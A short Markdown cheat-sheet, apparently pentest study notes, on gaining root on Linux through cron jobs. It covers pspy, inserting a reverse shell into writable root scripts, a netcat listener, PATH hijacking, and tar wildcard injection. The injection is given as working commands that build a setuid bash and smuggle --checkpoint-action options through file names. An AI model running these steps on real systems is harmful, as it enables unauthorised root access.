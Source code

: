 ## Program to use: pspy https://github.com/DominicBreuker/pspy

### cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh

#### 2) chmod +x runme.sh

#### 3) touch /tmp/--checkpoint=1

#### 4) touch /tmp/--checkpoint-action=exec=sh\runme.sh

#### 5) /tmp/bash -p
